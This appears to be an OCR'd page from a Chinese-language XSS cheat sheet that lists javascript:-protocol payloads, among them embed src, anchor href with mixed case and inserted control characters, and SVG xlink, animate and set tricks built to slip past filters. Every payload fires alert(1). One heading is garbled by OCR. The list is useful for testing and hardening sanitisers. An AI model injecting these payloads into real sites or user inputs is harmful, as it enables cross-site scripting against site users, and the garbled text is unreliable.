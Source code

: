 #### **用 JavaScript 协议嵌入 src 属性**

```
<embed src="javascript:alert(1)">
```

#### 标准的 JavaScript 协议

```
<a href="javascript:alert(1)">XSS</a>
```

#### **协议不区分大小写**

```
<a href="JaVaScript:alert(1)">XSS</a>
```

#### **协议前允许有字符\ x01-\ x20**

```
<a href=" javascript:alert(1)">XSS</a>
```

#### **协议中允许使用字符\x09、\x0a、\ x0d**

```
<a href="javas cript:alert(1)">XSS</a>
```

#### **冒号前的协议名称后允许有字符\x09、\x0a、\ x0d**

```
<a href="javascript :alert(1)">XSS</a>
```

#### **使用 JavaScript 协议的 SVG 中的 Xlink 名称空间**

```
<svg><a xlink:href="javascript:alert(1)"><text x="20" y="20">XSS</text></a>
```

#### **SVG 使用值制作标签动画**

```
<svg><animate xlink:href=#xss attributeName=href values=javascript:alert(1) /><a id=xss><text x=20 y=20>XSS</text></a>
```

#### **SVG 动画标签使用到**

```
<svg><animate xlink:href=#xss attributeName=href from=javascript:alert(1) to=1 /><a id=xss><text x=20 y=20>XSS</text></a>
```

#### t0±SVG 设置 tago±t1±1

```
<svg><set xlink:href=#xss attributeName=href from=? to=javascript:alert(1) /><a id=xss><text x=20 y=20>XSS</text></a>
```
